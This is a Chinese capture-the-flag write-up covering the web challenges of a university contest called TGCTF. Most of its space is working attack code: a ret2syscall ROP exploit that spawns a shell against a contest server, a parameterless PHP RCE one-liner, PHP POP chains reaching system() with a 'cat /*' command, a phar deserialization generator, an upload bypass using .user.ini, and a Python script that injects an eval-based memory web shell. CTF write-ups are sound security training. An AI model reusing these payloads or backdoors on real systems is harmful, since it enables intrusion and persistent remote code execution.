# 杭州师范大学TGCTF web 全解-先知社区

> **来源**: https://xz.aliyun.com/news/17794  
> **文章ID**: 17794

---

## TG\_wordpress

根据提示访问robots.txt,可以扫到vuln，简单的ret2syscall

```
#!/usr/bin/env python3
# execve generated by ROPgadget

from pwn import *
io = process("./vuln")
io = remote("101.37.149.223",52013)
p = b'a'*0x28
from struct import *
p += pack('<Q', 0x0000000000409f9e) # pop rsi ; ret
p += pack('<Q', 0x00000000004c50e0) # @ .data
p += pack('<Q', 0x0000000000419484) # pop rax ; ret
p += b'/bin//sh'
p += pack('<Q', 0x000000000044a5e5) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000409f9e) # pop rsi ; ret
p += pack('<Q', 0x00000000004c50e8) # @ .data + 8
p += pack('<Q', 0x000000000043d350) # xor rax, rax ; ret
p += pack('<Q', 0x000000000044a5e5) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000401f2f) # pop rdi ; ret
p += pack('<Q', 0x00000000004c50e0) # @ .data
p += pack('<Q', 0x0000000000409f9e) # pop rsi ; ret
p += pack('<Q', 0x00000000004c50e8) # @ .data + 8
p += pack('<Q', 0x000000000047f2eb) # pop rdx ; pop rbx ; ret
p += pack('<Q', 0x00000000004c50e8) # @ .data + 8
p += pack('<Q', 0x4141414141414141) # padding
p += pack('<Q', 0x000000000043d350) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000401ce4) # syscall

io.sendline(p)
io.interactive()
```



拿到账号密码

......

之后可以访问登录后台查看插件然后搜索漏洞

或者盲猜，一次就中了




那很好运来了

## web-偷渡阴平

我采用的方法是无参rce

```
if(chdir(chr(ord(strrev(crypt(serialize(array())))))))show_source(array_rand(array_flip(scandir(getcwd()))));
```



## **火眼辩魑魅**

robots.txt进行扫描发现tginclude.php可以利用，使用伪协议进行读取tgxff.php





发现是smarty框架，可以进行模板注入，在header头中



## 前端game

vite cve2025-30208



最新cve读环境变量

## ezupload

扫描得到upload.php.bak

```
<?php
// 定义上传目录的路径（当前文件目录下的 uploads 文件夹）
define('UPLOAD_PATH', __DIR__ . '/uploads/');

// 初始化变量
$is_upload = false;  // 是否上传成功标志
$msg = null;         // 返回信息
$status_code = 200;  // 默认 HTTP 状态码为 200（成功）

// 判断是否通过表单提交了数据
if (isset($_POST['submit'])) {
    // 检查上传目录是否存在
    if (file_exists(UPLOAD_PATH)) {
        // 定义禁止上传的文件扩展名数组，防止上传脚本类型文件造成安全风险
        $deny_ext = array(
            "php", "php5", "php4", "php3", "php2", "html", "htm", "phtml", "pht",
            "jsp", "jspa", "jspx", "jsw", "jsv", "jspf", "jtml",
            "asp", "aspx", "asa", "asax", "ascx", "ashx", "asmx", "cer",
            "swf", "htaccess"
        );

        // 获取文件名：如果 GET 参数中指定了 `name`，则使用它作为文件名，否则使用上传文件的原始名称
        if (isset($_GET['name'])) {
            $file_name = $_GET['name'];
        } else {
            $file_name = basename($_FILES['name']['name']);  // 只取文件名部分，去除路径信息
        }

        // 获取文件扩展名
        $file_ext = pathinfo($file_name, PATHINFO_EXTENSION);

        // 检查文件扩展名是否在禁止列表中
        if (!in_array($file_ext, $deny_ext)) {
            // 获取临时文件路径
            $temp_file = $_FILES['name']['tmp_name'];

            // 读取上传文件的内容
            $file_content = file_get_contents($temp_file);

            // 检查文件内容中是否含有非法字符，例如 HTML 标签可能用于 XSS 或其他攻击
            if (preg_match('/.+?</s', $file_content)) {
                $msg = '文件内容包含非法字符，禁止上传！';
                $status_code = 403; // 403 Forbidden：禁止访问
            } else {
                // 拼接目标路径
                $img_path = UPLOAD_PATH . $file_name;

                // 尝试将上传的临时文件移动到目标目录
                if (move_uploaded_file($temp_file, $img_path)) {
                    $is_upload = true;
                    $msg = '文件上传成功！';
                } else {
                    $msg = '上传出错！';
                    $status_code = 500; // 500 Internal Server Error：服务器内部错误
                }
            }
        } else {
            $msg = '禁止保存为该类型文件！';
            $status_code = 403; // 403 Forbidden：禁止访问
        }
    } else {
        // 如果上传目录不存在
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
        $status_code = 404; // 404 Not Found：资源不存在
    }
}

// 设置 HTTP 状态码（响应码）
http_response_code($status_code);

// 返回 JSON 格式的响应信息
echo json_encode([
    'status_code' => $status_code,
    'msg' => $msg,
]);

```

上传.user.ini



上传a.jpg



发两次得到flag

## 直面天命

根据hint爆出aazz路由

然后爆出参数





得到flag

## 什么文件上传

robots.txt 访问class.php

```
<?php
highlight_file(__FILE__);
error_reporting(0);
function best64_decode($str)
{
    return base64_decode(base64_decode(base64_decode(base64_decode(base64_decode($str)))));
}
function best64_encode($str)
{
    return base64_encode(base64_encode(base64_encode(base64_encode(base64_encode($str)))));
}
class yesterday {
    public $learn;
    public $study="study";
    public $try;
    public function __construct()
    {
        $this->learn = "learn<br>";
    }
    public function __destruct()
    {
        echo "You studied hard yesterday.<br>";
        return $this->study->hard();
    }
}
class today {
    public $doing;
    public $did;
    public $done;
    public function __construct(){
        $this->did = "What you did makes you outstanding.<br>";
    }
    public function __call($arg1, $arg2)
    {
        $this->done = "And what you've done has given you a choice.<br>";
        echo $this->done;
        if(md5(md5($this->doing))==666){
            return $this->doing();
        }
        else{
            return $this->doing->better;
        }
    }
}
class tommoraw {
    public $good;
    public $bad;
    public $soso;
    public function __invoke(){
        $this->good="You'll be good tommoraw!<br>";
        echo $this->good;
    }
    public function __get($arg1){
        $this->bad="You'll be bad tommoraw!<br>";
    }

}
class future{
    private $impossible="How can you get here?<br>";
    private $out;
    private $no;
    public $useful1;public $useful2;public $useful3;public $useful4;public $useful5;public $useful6;public $useful7;public $useful8;public $useful9;public $useful10;public $useful11;public $useful12;public $useful13;public $useful14;public $useful15;public $useful16;public $useful17;public $useful18;public $useful19;public $useful20;

    public function __set($arg1, $arg2) {
        if ($this->out->useful7) {
            echo "Seven is my lucky number<br>";
            system('whoami');
        }
    }
    public function __toString(){
        echo "This is your future.<br>";
        system($_POST["wow"]);
        return "win";
    }
    public function __destruct(){
        $this->no = "no";
        return $this->no;
    }
}
$a = new yesterday();
$b= new today();
$a->study=$b;
$c= new tommoraw();
$future= new future();
$b->doing = $future;
$data = best64_encode(serialize($a));
echo $data;
//unserialize(best64_decode($data));
// You learn yesterday, you choose today, can you get to your future?
?>
```

wow=cat /\*



## 熟悉的配方，熟悉的味道

内存马

```
import requests
from urllib.parse import quote
code='''def waff():
    def f():
        yield g.gi_frame.f_back

    g = f()             
    frame = next(g)     
    b = frame.f_back.f_back.f_globals
    def hello(request):
        code = request.params['code']
        res=eval(code)
        return Response(res)

    config.add_route('shellb', '/shellb')
    config.add_view(hello, route_name='shellb')
    config.commit()

waff()
'''

burp0_url = "http://node1.tgctf.woooo.tech:30717/"
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate, br", "Connection": "close", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "none", "Sec-Fetch-User": "?1", "Priority": "u=0, i"}
burp0_data = {"expr": code}
res=requests.post(burp0_url, headers=burp0_headers,data=burp0_data)
print(res.text)
url2 = "http://node1.tgctf.woooo.tech:30717/shellb?code=__import__("os").popen("whoami").read()"
print(requests.get(url2).text)
```



## **什么文件上传？（复仇）**

```
<?php
//highlight_file(__FILE__);
error_reporting(0);
function best64_decode($str)
{
    return base64_encode(md5(base64_encode(md5($str))));
}
class yesterday {
    public $learn;
    public $study="study";
    public $try;
    public function __construct()
    {
        $this->learn = "learn<br>";
    }
    public function __destruct()
    {
        echo "You studied hard yesterday.<br>";
        return $this->study->hard();
    }
}
class today {
    public $doing;
    public $did;
    public $done;
    public function __construct(){
        $this->did = "What you did makes you outstanding.<br>";
    }
    public function __call($arg1, $arg2)
    {
        $this->done = "And what you've done has given you a choice.<br>";
        echo $this->done;
        if(md5(md5($this->doing))==666){
            return $this->doing();
        }
        else{
            return $this->doing->better;
        }
    }
}
class tommoraw {
    public $good;
    public $bad;
    public $soso;
    public function __invoke(){
        $this->good="You'll be good tommoraw!<br>";
        echo $this->good;
    }
    public function __get($arg1){
        $this->bad="You'll be bad tommoraw!<br>";
    }

}
class future{
    private $impossible="How can you get here?<br>";
    private $out;
    private $no;
    public $useful1;public $useful2;public $useful3;public $useful4;public $useful5;public $useful6;public $useful7;public $useful8;public $useful9;public $useful10;public $useful11;public $useful12;public $useful13;public $useful14;public $useful15;public $useful16;public $useful17;public $useful18;public $useful19;public $useful20;

    public function __set($arg1, $arg2) {
        if ($this->out->useful7) {
            echo "Seven is my lucky number<br>";
            system('whoami');
        }
    }
    public function __toString(){
        echo "This is your future.<br>";
        system($_POST["wow"]);
        return "win";
    }
    public function __destruct(){
        $this->no = "no";
        return $this->no;
    }
}


//$phar = new Phar("exp4.phar"); //生成phar文件
//$phar->startBuffering();
//$phar->setStub('<?php __HALT_COMPILER(); ? >');
//$a = new yesterday();
//$b = new today();
//$a->study = $b;
//$c = new tommoraw();
//$future = new future();
//$b->doing = $future;
//$phar->setMetadata($a); //触发头是C1e4r类
//$phar->addFromString("exp.txt", "test"); //生成签名
//$phar->stopBuffering();
var_dump(file_exists("phar://exp4.phar/exp.txt"));
?>
```

生成phar反序列化使用爆出来的后缀名



file\_exists存在phar反序列化



## 后台管理



`\`注释单引号

后面就可以任意执行，有长度限制，很短，直接开猜，猜到就出flag了

## **AAA偷渡阴平（复仇）**

